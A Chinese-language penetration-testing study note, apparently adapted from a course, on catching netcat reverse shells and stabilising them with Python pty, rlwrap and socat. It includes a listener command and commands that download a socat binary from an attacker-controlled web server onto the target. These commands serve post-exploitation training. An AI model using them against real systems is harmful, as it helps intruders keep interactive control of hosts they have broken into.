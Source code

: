 Reverse shell listen:
nc -nlvp \[PORT]
	 -l 用于告诉 netcat 这将是一个侦听器
    -v 用于请求详细输出
    -n 告诉 netcat 不要解析主机名或使用 DNS。
    -p 表示将遵循端口规范。
Netcat Shell Stabilisation：
```
默认情况下，这些 shell 非常不稳定。按 Ctrl + C 会杀死整个事情。它们是非交互式的，并且经常有奇怪的格式错误。这是因为 netcat 的“shell”实际上是在终端内运行的进程，而不是真正的终端。幸运的是，有很多方法可以稳定 Linux 系统上的 netcat shell。我们将在这里看三个。Windows 反向 shell 的稳定性往往要困难得多;但是，我们将在这里介绍的第二种技术对它特别有用。
```
 _技术 1：Python_
	\1. 首先要做的是使用 `python -c 'import pty;pty.spawn("/bin/bash")'` ，它使用 Python 生成功能更好的 bash shell;请注意，某些目标可能需要指定的 Python 版本。如果是这种情况，请根据需要将 `python` 替换为 `python2` 或 `python3` 。在这一点上，我们的 shell 看起来会更漂亮一些，但我们仍然无法使用 tab 自动完成或箭头键，并且 Ctrl + C 仍然会杀死 shell。
	2.第二步是： `export TERM=xterm` -- 这将使我们能够访问术语命令，例如 `clear` 。
	3.最后（也是最重要的）我们将使用 Ctrl + Z 对 shell 进行背景处理。回到我们自己的终端中，我们使用 `stty raw -echo; fg` 。这做了两件事：首先，它关闭了我们自己的终端回显（它使我们能够访问 Tab 自动完成、箭头键和 Ctrl + C 来终止进程）。然后，它使shell成为前景，从而完成该过程。
	![[Pasted image 20231208172838.png]]
	请注意，如果 shell died，您自己的终端中的任何输入都将不可见（由于禁用了终端回显）。若要解决此问题，请键入 `reset` 并按 Enter。
_技术 2：rlwrap_
	rlwrap是一个程序，简单来说，它使我们能够在收到 shell 后立即访问历史记录、Tab 自动完成和箭头键;但是，如果您希望能够在 shell 内使用 Ctrl + C，仍必须使用一些手动稳定功能。默认情况下，Kali 上未安装 rlwrap，因此请先使用 `sudo apt install rlwrap` 安装它。
	为了使用 rlwrap，我们调用了一个稍微不同的侦听器：
	`rlwrap nc -lvnp <port>`
	在 netcat 监听器前面加上 “rlwrap” 为我们提供了一个功能更全面的 shell。这种技术在处理 Windows shell 时特别有用，否则很难稳定。在处理 Linux 目标时，可以使用与上一种技术的第三步相同的技巧来完全稳定：使用 Ctrl + Z 使 shell 进入后台，然后使用 `stty raw -echo; fg` 稳定并重新进入 shell。
_技术3：索卡特_
	稳定 shell 的第三种简单方法是使用初始 netcat shell 作为进入功能更全面的 socat shell 的垫脚石。请记住，此技术仅限于 Linux 目标，因为 Windows 上的 Socat shell 不会比 netcat shell 更稳定。为了实现这种稳定方法，我们首先将 socat 静态编译的二进制文件（编译为没有依赖关系的程序版本）传输到目标机器。实现此目的的典型方法是在攻击计算机上包含 socat 二进制文件 （ `sudo python3 -m http.server 80` ） 的目录中使用 Web 服务器，然后在目标计算机上使用 netcat shell 下载文件。在Linux上，这将通过curl或wget（ `wget <LOCAL-IP>/socat -O /tmp/socat` ）完成。
	-----------------------------------------
	为了完整起见：在Windows CLI环境中，可以使用Invoke-WebRequest或webrequest系统类使用Powershell完成相同的操作，具体取决于安装的Powershell版本（ `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe` ）。在即将到来的任务中，我们将介绍使用 Socat 发送和接收 shell 的语法。
使用上述任何一种技术，能够更改终端 tty 大小都很有用。这是您的终端在使用常规 shell 时会自动执行的操作;但是，如果要使用覆盖屏幕上所有内容的文本编辑器之类的东西，则必须在反向或绑定 shell 中手动完成。
首先，打开另一个终端并运行 `stty -a` 。这将为您提供大量输出。记下“rows”和 columns 的值：
![[Pasted image 20231208173926.png]]
接下来，在反向/绑定 shell 中，键入：
`stty rows <number>`  
and 和
`stty cols <number>`
填写您在自己的终端中运行命令后获得的数字。这将改变终端的注册宽度和高度，从而允许依赖此类信息准确的文本编辑器等程序正确打开。
